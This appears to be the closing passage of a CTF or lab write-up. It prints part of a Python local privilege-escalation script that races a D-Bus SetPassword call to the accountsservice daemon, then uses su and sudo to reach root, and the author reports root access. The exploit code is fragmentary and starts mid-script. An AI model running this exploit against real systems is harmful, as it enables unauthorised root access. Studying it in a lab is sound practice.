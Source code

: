 ```shell
#print(i)

uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

#In case you need to put a password un-comment the code below and put your password after string:yourpassword'

password = "string:"

#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')

#password = f"string:{res.rstrip()}"

process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])

try:

#print('1 - Running in process', process.pid)

Random = random.uniform(0.006,0.009)

process.wait(timeout=Random)

process.kill()

except subprocess.TimeoutExpired:

#print('Timed out - killing', process.pid)

process.kill()

print("[+] Timed out at: " + str(Random))

print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```

so i copied it and opened a file with python extention as **privillage.py** and then runned it with the following code

```shell
python3 privillage.py
```

![[privillage.png]]

Then boom i got the root access!

![[root.png]]

And hence i found the root in the root folder

    -------------------------END successful attack @leshack98----------------------
